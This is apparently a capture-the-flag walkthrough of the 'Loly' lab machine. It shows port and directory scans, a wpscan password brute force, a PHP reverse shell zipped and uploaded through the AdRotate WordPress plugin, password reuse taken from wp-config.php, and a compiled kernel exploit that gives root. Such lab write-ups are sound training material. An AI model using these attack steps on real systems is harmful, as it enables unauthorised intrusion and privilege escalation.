






Only port 80 is open:

```bash
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Welcome to nginx!
| http-methods:
|_  Supported Methods: GET HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Checking out the website, it appears to just a default page for nginx.
Fuzz the web root:

```bash
$ gobuster dir -u http://192.168.122.121/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.122.121/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/03/04 10:39:57 Starting gobuster in directory enumeration mode
===============================================================
/wordpress            (Status: 301) [Size: 194] [--> http://192.168.122.121/wordpress/]
Progress: 4611 / 4615 (99.91%)===============================================================
```

If I go to the /wordpress endpoint, I get a page, but it isn't being rendered properly.



On the homepage, there is a link to http://loly.lc/wordpress/. I'll add /loly.lc to `/etc/hosts`
I refresh the page and now it looks better.



The only user here appears to be loly. Brute force with wpscan and rockyou:

```bash
$ wpscan --url http://loly.lc/wordpress/ -e u,ap --passwords /usr/share/wordlists/rockyou.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://loly.lc/wordpress/ [192.168.122.121]
[+] Started: Sat Mar  4 11:04:54 2023

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: nginx/1.10.3 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://loly.lc/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://loly.lc/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://loly.lc/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.5 identified (Insecure, released on 2020-08-11).
 | Found By: Rss Generator (Passive Detection)
 |  - http://loly.lc/wordpress/?feed=comments-rss2, <generator>https://wordpress.org/?v=5.5</generator>
 | Confirmed By: Emoji Settings (Passive Detection)
 |  - http://loly.lc/wordpress/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.5'

[+] WordPress theme in use: feminine-style
 | Location: http://loly.lc/wordpress/wp-content/themes/feminine-style/
 | Last Updated: 2022-02-16T00:00:00.000Z
 | Readme: http://loly.lc/wordpress/wp-content/themes/feminine-style/readme.txt
 | [!] The version is out of date, the latest version is 3.0.3
 | Style URL: http://loly.lc/wordpress/wp-content/themes/feminine-style/style.css?ver=5.5
 | Style Name: Feminine Style
 | Style URI: https://www.acmethemes.com/themes/feminine-style
 | Description: Feminine Style is a voguish, dazzling and very appealing WordPress theme. The theme is completely wo...
 | Author: acmethemes
 | Author URI: https://www.acmethemes.com/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.0.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://loly.lc/wordpress/wp-content/themes/feminine-style/style.css?ver=5.5, Match: 'Version: 1.0.0'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] adrotate
 | Location: http://loly.lc/wordpress/wp-content/plugins/adrotate/
 | Last Updated: 2023-01-27T21:19:00.000Z
 | [!] The version is out of date, the latest version is 5.11
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 5.8.6.2 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://loly.lc/wordpress/wp-content/plugins/adrotate/readme.txt

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <===============================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] loly
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] A WordPress Commenter
 | Found By: Rss Generator (Passive Detection)

[+] Performing password attack on Xmlrpc against 2 user/s
[SUCCESS] - loly / fernando
```

So, I can login with `loly:fernando`.

Loly is an admin, but on the dashboard, there is no way to edit a page. I spent some time trying to upload php code inside an image, but couldn't get code execution. My approach was noticing that I could find an uploaded resource after fuzzing the `page_id` parameter:

```bash
$ wfuzz -z range,1-1000 -u http://loly.lc/wordpress/?page_id=FUZZ --hw 1362
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://loly.lc/wordpress/?page_id=FUZZ
Total requests: 1000

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000001:   301        0 L      0 W        0 Ch        "1"
000000012:   301        0 L      0 W        0 Ch        "12"
000000002:   200        511 L    1610 W     29093 Ch    "2"

Total time: 0
Processed Requests: 1000
Filtered Requests: 997
Requests/sec.: 0
```
Those values refer to certain files uploaded, like one image named Kafuu-Chino-trong-Gochuumon-wa-Usagi-Desu-ka. If you upload a file, you'll get an additional value. So the idea was upload an image with php code and then call it to get code execution. However, this doesn't work.

Uploading a php shell is the way to go, but through another plugin that is promonently displayed called AdRotate.



This plugin allows you to upload banners and it allows you to upload them in zip form. Presumably, it will unzip them, so maybe this will bypass the security rule that says no to php files.

I get a php shell from pentestmonkey, and zip it up:

```bash
$ zip shell.zip shell.php                                                   
  adding: shell.php (deflated 59%)
```
I upload it, then set up a netcat listener, then call the shell at its file path and get a shell:



```bash
┌──(lemmy㉿d43d41us)-[~/hacking/boxes/pgp/loly]
└─$ curl http://loly.lc/wordpress/wp-content/banners/shell.php                
<html>
<head><title>504 Gateway Time-out</title></head>
<body bgcolor="white">
<center><h1>504 Gateway Time-out</h1></center>
<hr><center>nginx/1.10.3 (Ubuntu)</center>
</body>
</html>


www-data@ubuntu:~$ whoami
www-data
www-data@ubuntu:~$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@ubuntu:~$ hostname
ubuntu
www-data@ubuntu:~$ hostname -i
127.0.1.1
www-data@ubuntu:~$ hostname -I
192.168.122.121
www-data@ubuntu:~$ cat local.txt
c05a4787f3858adab4b63af62df6c5fa
```


I want to see what other services are listening on the host, because wordpress usually uses SQL. Sure enough, port 3306 is open:

```bash
www-data@ubuntu:~$ ss -tulpn
Netid  State      Recv-Q Send-Q Local Address:Port               Peer Address:Port
udp    UNCONN     0      0         *:46378                 *:*
tcp    LISTEN     0      128    127.0.0.1:3306                  *:*
tcp    LISTEN     0      128       *:80                    *:*                   users:(("nginx",pid=2939,fd=6))
tcp    LISTEN     0      128      :::80                   :::*                   users:(("nginx",pid=2939,fd=7))
```

I check the Wordpress config files to look for the SQL passsword:

```bash
www-data@ubuntu:~/html/wordpress$ cat wp-config.php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', 'lolyisabeautifulgirl' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
<SNIP>
```

Since this password alludes to the only other user on the machine, loly, I'll see if I can switch users to her. It works:

```bash
www-data@ubuntu:~/html/wordpress$ su loly
Password: lolyisabeautifulgirl

loly@ubuntu:/var/www/html/wordpress$ whoami                               whoami
loly
```

I ran linpeas and saw that the system is old and likely vulnerable to a kernel exploit. I'll try the first one suggested, which references  website.

At some point, the shell died. Since I identified a possible kernel exploit, I tried to compile the exploit as www-data. However, it didn't work:

```bash
www-data@ubuntu:/tmp$ gcc 45010.c -o 45010
gcc: error trying to exec 'cc1': execvp: No such file or directory
```

However, as loly, it does compile:

```bash
www-data@ubuntu:/tmp$ su loly
Password: lolyisabeautifulgirl

loly@ubuntu:/tmp$ gcc 45010.c -o 450gcc 45010.c -o 45010
```

I run it and become root:

```bash
loly@ubuntu:/tmp$ ./45010           ./45010
[.]
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.]
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.]
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff88007c80fe00
[*] Leaking sock struct from ffff8800349703c0
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff880035cc4780
[*] UID from cred structure: 1000, matches the current: 1000
[*] hammering cred structure at ffff880035cc4780
[*] credentials patched, launching shell...
# cd /root
# ls
proof.txt  root.txt
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare),1000(loly)
# hostname
ubuntu
# hostname -I
192.168.122.121
# cat proof.txt
81a313f142a338ccc09e6521f4f2bad8
```
